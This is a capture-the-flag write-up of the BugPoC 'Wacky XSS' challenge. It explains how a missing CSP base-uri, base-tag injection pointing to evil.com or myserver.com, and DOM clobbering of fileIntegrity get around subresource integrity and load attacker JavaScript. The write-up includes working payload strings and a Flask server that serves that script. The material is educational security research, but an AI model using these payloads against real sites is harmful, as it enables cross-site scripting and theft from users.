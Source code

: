 ```yaml
---
layout: post
title:  "Wacky XSS challenge writeup"
description: In this writeup I will show my solution for Wacky XSS challenge.
---
```

Hi, here is my writeup of bugpoc's XSS challenge so we had a URL wacky.buggywebsite.com which shows this page.


![image](../../../assets/images/wacky-xss-1.png){: .imagePopup}


Here we had a textbox where we could enter text and it shows text with some fancy style but we were not allowed to enter some characters such as <, >, &, %, *


we had two JS file one was script.js and another was frame-analytics.js. In script.js we had


```javascript
var isChrome = /Chrome/.test(navigator.userAgent) && /Google Inc/.test(navigator.vendor);
	if (!isChrome){
		document.body.innerHTML = `
			<h1>Website Only Available in Chrome</h1>
			<p style="text-align:center"> Please visit <a href="https://www.google.com/chrome/">https://www.google.com/chrome/</a> to download Google Chrome if you would like to visit this website</p>.
		`;
	}
	
document.getElementById("txt").onkeyup = function(){
	this.value = this.value.replace(/[&*<>%]/g, '');
};


document.getElementById('btn').onclick = function(){
	val = document.getElementById('txt').value;
	document.getElementById('theIframe').src = '/frame.html?param='+val;
};

```


due to the replace function in above some special characters were replacing but here we could see that we have another file frame.html with a parameter so I opened it and I saw that value of parameter was reflecting in the title of webpage


![image](../../../assets/images/wacky-xss-2.png){: .imagePopup}


and also it was not filter means we have html injection so after closing the title tag we could execute HTML code. Now here we could not execute JavaScript directly because their was CSP (Content Security policy) so I started analyzing CSP and found that base-uri was missing.


*What can attacker do when base-uri is missing from CSP and we have a html injection?*


*Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain.*


![image](../../../assets/images/wacky-xss-3.png){: .imagePopup}


I hope you got the use of base tag from above image. Lets confirm this in challenge so I added base tag in parameter


![image](../../../assets/images/wacky-xss-4.png){: .imagePopup}


Here movie.pm4 was loading from evil.com. Now we had to load JavaScript file from our server and frame.html should be in iframe because if its not in iframe then frame-analytics.js will not load so I created payload to load JS file from another domain


```
Payload : </title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=aman</title><base href=//evil.com>' id='theIframe' name=iframe></iframe></body></html><!--
```


![image](../../../assets/images/wacky-xss-5.png){: .imagePopup}


and We were able to load frame-analytics.js from another domain. Now I setup my flask server to load my JavaScript code.


```python
from flask import Flask, request, send_from_directory, Response
from flask_cors import CORS, cross_origin


app = Flask(__name__, static_url_path='')
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

@app.route("/files/<path:path>")
@cross_origin()
def exploit(path):
    jscode = """
    alert(document.domain);
        """;
    return Response(jscode, mimetype='application/javascript')

if __name__ == '__main__':
    app.run(debug=True)
```


![image](../../../assets/images/wacky-xss-6.png){: .imagePopup}


Now the response in console was different and It was giving error because of Subresource Integrity in script tag.


***Subresource Integrity (SRI)** is a security feature that enables browsers to verify that resources they fetch (for example, from a CDN) are delivered without unexpected manipulation. It works by allowing you to provide a cryptographic hash that a fetched resource must match.*


Its means we had to change the integrity attribute’s value also to load our script so I started looking for source code and found this.


```javascript
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}


// securely add the analytics code into iframe
script = document.createElement('script');
script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
script.setAttribute('crossorigin', 'anonymous');
analyticsFrame.contentDocument.body.appendChild(script);
```


If you don’t understand this then let me explain. This code is checking If value of window.fileIntegrity is assigned then use that value to generate script tag with integrity’s value window.fileIntegrity.value and fileIntegrity was a global variable.


so after this we had to use Dom Clobbering technique to control the global variable fileIntegrity


***DOM clobbering** is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.*


It was easy to bypass this SRI using Dom Clobbering so I used anchor tag with id and name to control integrity’s value.


```
paylaod : <a id=fileIntegrity><a id=fileIntegrity name=value href=theamanrawat>
```


this payload will defined the value of window.fileintegrity and we were able to load our JavaScript code.


![image](../../../assets/images/wacky-xss-7.png){: .imagePopup}


Now alert was blocked because of sandbox in iframe so we had to bypass this and bypassing this sandbox was very simple because we can execute JavaScript function such as createElement(), console.log() and etc..


To bypass this I created script tag outside the sandbox iframe and my final payload was this


```
</title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=aman</title><a id=fileIntegrity><a id=fileIntegrity name=value href=theamanrawat><base href=//myserver.com>' id='theIframe' name=iframe></iframe></body></html><!--
```


I sent this payload and the alert was executed :)


![image](../../../assets/images/wacky-xss-8.png){: .imagePopup}


# Now its time to create working PoC on bugpoc.


I used **mock endpoint builder** for JavaScript code


![image](../../../assets/images/wacky-xss-9.png){: .imagePopup}


and then **Flexible Redirector** for redirecting all path to mock endpoint.


Now I created front end poc to run the exploit.


![image](../../../assets/images/wacky-xss-10.png){: .imagePopup}


That’s it for this writeup. You can check the my PoC on https://bugpoc.com/poc#bp-uvrG5pXO & password : `SHYwasp53`


Thanks for reading.
